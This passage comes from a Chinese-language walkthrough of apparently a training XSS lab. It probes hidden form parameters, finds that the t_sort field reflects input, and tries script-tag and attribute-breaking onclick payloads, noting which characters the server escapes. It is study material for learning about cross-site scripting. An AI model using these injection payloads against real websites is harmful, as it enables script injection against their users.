 ```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
```

尝试个三个参数传值：

```javascript
keyword=1&t_link=2&t_history=2&t_sort=3
```

最后发现只有t_sort接受了参数：

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="3" type="hidden">
```

所以从t_sort入手：

```
&t_sort=1"><script> alert(1)</script>
```

发现<>被转义了

```
<input name="t_sort"  value="1"script alert(1)/script" type="hidden">
```

尝试onclick

```
&t_sort=1” onclick='javascript:alert(1)' type='button'>
```

## 11、隐藏信息，多参数选择加referer

首先测试四个参数发现就只有t_sort成功

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="3" type="hidden">
<input name="t_ref"  value="" type="hidden
```

尝试：

```html
keyword=1&t_sort=2" onclick='javascript:alert(0)' type='button'>
```

发现双引号和尖括号被转义了

```html
<input name="t_sort"  value="2&quot; onclick='javascript:alert(0)' type='button'&gt;" type="hidden">
```
